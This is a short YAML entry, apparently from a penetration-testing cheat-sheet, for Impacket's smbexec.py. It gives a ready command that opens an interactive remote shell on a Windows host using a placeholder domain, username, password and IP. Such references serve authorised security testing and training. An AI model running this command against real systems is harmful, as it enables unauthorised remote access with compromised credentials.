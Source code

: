 ```yaml
---
description: |
  Impacket's smbexec.py. This will give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123
items:
  Password:
    - code: |
        python3 smbexec.py test.local/john:password123@10.10.10.1
  Username:
    - code: |
        empty
filters:
  SMB:
    - code: |
        empty
---
```

